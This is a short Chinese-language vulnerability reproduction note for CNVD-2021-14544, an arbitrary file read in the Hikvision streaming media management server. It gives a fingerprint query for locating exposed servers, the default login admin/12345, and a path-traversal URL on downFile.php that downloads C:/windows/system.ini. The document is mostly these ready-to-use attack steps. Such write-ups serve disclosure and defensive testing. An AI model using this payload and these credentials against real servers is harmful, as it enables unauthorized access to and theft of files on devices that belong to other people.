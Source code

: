 # Hikvision 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

```
Hikvision 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`

![image-20220519172955875](images/202205191729966.png)

访问如下URL下载`C:/windows/system.ini`文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

